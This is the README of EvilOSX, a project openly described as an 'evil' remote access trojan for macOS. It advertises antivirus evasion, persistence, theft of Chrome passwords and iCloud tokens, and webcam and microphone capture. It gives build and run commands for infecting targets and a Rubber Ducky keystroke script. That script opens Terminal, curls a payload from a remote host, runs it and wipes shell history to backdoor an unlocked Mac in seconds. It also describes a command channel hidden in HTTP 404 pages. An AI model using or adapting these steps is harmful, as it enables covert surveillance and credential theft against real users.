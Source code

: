 <h1 align="center">
  <br>
  <a href="https://github.com/Marten4n6/EvilOSX"><img src="/data/images/logo.png?raw=true" alt="Logo" width="280"></a>
  <br>
  EvilOSX
  <br>
</h1>

<h4 align="center">An evil RAT (Remote Administration Tool) for macOS / OS X.</h4>

<p align="center">
  <a href="https://github.com/Marten4n6/EvilOSX/blob/master/LICENSE.txt">
      <img src="https://img.shields.io/badge/license-GPLv3-blue.svg?style=flat-square" alt="License">
  </a>
  <a href="https://github.com/Marten4n6/EvilOSX/blob/master/LICENSE.txt">
      <img src="https://img.shields.io/badge/python-2.7,%203.7-blue.svg?style=flat-square" alt="Python">
  </a>
  <a href="https://github.com/Marten4n6/EvilOSX/issues">
    <img src="https://img.shields.io/github/issues/Marten4n6/EvilOSX.svg?style=flat-square" alt="Issues">
  </a>
  <a href="https://travis-ci.org/Marten4n6/EvilOSX">
      <img src="https://img.shields.io/travis/Marten4n6/EvilOSX/master.svg?style=flat-square" alt="Build Status">
  </a>
  <a href="https://github.com/Marten4n6/EvilOSX/blob/master/CONTRIBUTING.md">
      <img src="https://img.shields.io/badge/contributions-welcome-brightgreen.svg?style=flat-square" alt="Contributing">
  </a>
</p>

---
</p></p>
<h4 align="center">More details from Cyber Security Labs</h4>
<a href="https://null-byte.wonderhowto.com/how-to/dump-macos-users-chrome-passwords-with-evilosx-0180512/"></a>
</p>
</p>
</p>

[Marco Generator](https://github.com/cedowens/EvilOSX_MacroGenerator) by Cedric Owens

### This project is no longer active

## Features
- Emulate a terminal instance
- Simple extendable [module](https://github.com/Marten4n6/EvilOSX/blob/master/CONTRIBUTING.md) system
- No bot dependencies (pure python)
- Undetected by anti-virus (OpenSSL [AES-256](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard) encrypted payloads)
- Persistent
- GUI and CLI support
- Retrieve Chrome passwords
- Retrieve iCloud tokens and contacts
- Retrieve/monitor the clipboard
- Retrieve browser history (Chrome and Safari)
- [Phish](https://i.imgur.com/x3ilHQi.png) for iCloud passwords via iTunes
- iTunes (iOS) backup enumeration
- Record the microphone
- Take a desktop screenshot or picture using the webcam
- Attempt to get root via local privilege escalation

## How To Use

```bash
# Clone or download this repository
$ git clone https://github.com/Marten4n6/EvilOSX

# Go into the repository
$ cd EvilOSX

# Install dependencies required by the server
$ sudo pip install -r requirements.txt

# Start the GUI
$ python start.py

# Lastly, run a built launcher on your target(s)
```

**Warning:** Because payloads are created unique to the target system (automatically by the server), the server must be running when any bot connects for the first time.

### Advanced users

There's also a CLI for those who want to use this over SSH:
```bash
# Create a launcher to infect your target(s)
$ python start.py --builder

# Start the CLI
$ python start.py --cli --port 1337

# Lastly, run a built launcher on your target(s)
```

## Screenshots

![CLI](https://i.imgur.com/DGYCQMl.png)
![GUI](https://i.imgur.com/qw3k4z4.png)

## Motivation
This project was created to be used with my [Rubber Ducky](https://hakshop.com/products/usb-rubber-ducky-deluxe), here's the simple script:
```
REM Download and execute EvilOSX @ https://github.com/Marten4n6/EvilOSX
REM See also: https://ducktoolkit.com/vidpid/

DELAY 1000
GUI SPACE
DELAY 500
STRING Termina
DELAY 1000
ENTER
DELAY 1500

REM Kill all terminals after x seconds
STRING screen -dm bash -c 'sleep 6; killall Terminal'
ENTER

STRING cd /tmp; curl -s HOST_TO_EVILOSX.py -o 1337.py; python 1337.py; history -cw; clear
ENTER
```
- It takes about 10 seconds to backdoor any unlocked Mac, which is...... *nice*
- Termina**l** is spelt that way intentionally, on some systems spotlight won't find the terminal otherwise. <br/>
- To bypass the keyboard setup assistant make sure you change the VID&PID which can be found [here](https://ducktoolkit.com/vidpid/). <br/>
  Aluminum Keyboard (ISO) is probably the one you are looking for.


## Versioning
EvilOSX will be maintained under the Semantic Versioning guidelines as much as possible. <br/>
Server and bot releases will be numbered with the follow format:
```
<major>.<minor>.<patch>
```

And constructed with the following guidelines:
- Breaking backward compatibility (with older bots) bumps the major
- New additions without breaking backward compatibility bumps the minor
- Bug fixes and misc changes bump the patch

For more information on SemVer, please visit https://semver.org/.

## Design Notes
- Infecting a machine is split up into three parts:
  * A **launcher** is run on the target machine whose only goal is to run the stager
  * The stager asks the server for a **loader** which handles how a payload will be loaded
  * The loader is given a uniquely encrypted **payload** and then sent back to the stager
- The server hides it's communications by sending messages hidden in HTTP 404 error pages (from BlackHat's "Hiding In Plain Sight")
  * Command requests are retrieved from the server via a GET request
  * Command responses are sent to the server via a POST request
- Modules take advantage of python's dynamic nature, they are simply sent over the network compressed with [zlib](https://www.zlib.net), along with any configuration options
- Since the bot only communicates with the server and never the other way around, the server has no way of knowing when a bot goes offline

## Issues
Feel free to submit any issues or feature requests [here](https://github.com/Marten4n6/EvilOSX/issues).

## Contributing
For a simple guide on how to create modules click [here](https://github.com/Marten4n6/EvilOSX/blob/master/CONTRIBUTING.md).

## Credits
- The awesome [Empire](https://github.com/EmpireProject) project
- Shoutout to [Patrick Wardle](https://twitter.com/patrickwardle) for his awesome talks, check out [Objective-See](https://objective-see.com/)
- manwhoami for his projects: OSXChromeDecrypt, MMeTokenDecrypt, iCloudContacts <br/>
  (now deleted... let me know if you reappear)
- The slowloris module is pretty much copied from [PySlowLoris](https://github.com/ProjectMayhem/PySlowLoris)
- [urwid](http://urwid.org/) and [this code](https://github.com/izderadicka/xmpp-tester/blob/master/commander.py) which saved me a lot of time with the CLI
- Logo created by [motusora](https://www.behance.net/motusora)

## License
[GPLv3](https://github.com/Marten4n6/EvilOSX/blob/master/LICENSE.txt)
